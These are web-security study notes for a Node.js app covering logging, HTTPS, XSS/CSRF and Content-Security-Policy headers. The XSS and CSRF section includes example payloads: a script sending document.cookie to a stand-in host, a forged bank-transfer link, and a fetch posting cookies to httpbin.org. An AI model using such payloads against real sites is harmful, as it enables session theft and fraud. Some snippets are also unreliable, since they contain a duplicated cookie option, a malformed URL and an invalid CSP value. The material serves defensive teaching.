 ```

winston (recommended for production): https://www.npmjs.com/package/winston
morgan: https://www.npmjs.com/package/morgan

```
$
$ npm install winston
$ npm install Morgan
$
$ npm install cors
```

```
// ...
const morgan = require('morgan');
const cors = require('cors');
const winston = require('winston');

// ...
app.use(morgan('combined'))

// instead of console log use winston
winston.log('info', userInput)

// or if error
winston.error('This guy is messing with us')

```

> before enable logging be sure what information do you need!

**4. HTTPS Everywhere**

> SSL/TLS Certificates: https://letsencrypt.org/

> cloudflare: https://www.cloudflare.com/

**5. XSS and CSRF**

XSS:
```
window.location = 'haxxed.com?cookie=' + document.cookie
```

CSRF
```
<a href="http://netbank.com/transfer.do?acct=AttackerA?amount;=$100">Read more!</a>

// fetch() is default in console
// open twitter.com and run in the console
fetch('//httpbin.org/post', {method: 'POST', body: document.cookie})
```

Set content-security-policy:
In server.js
```
app.get('/', (req, res) => {
  res.cookie('session', '1', {httpOnly: true, httpOnly: true})
  res.cookie('session', '1', {httpOnly: true, secure: true})
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
});
```

a. Sanitize input
b. No eval()
```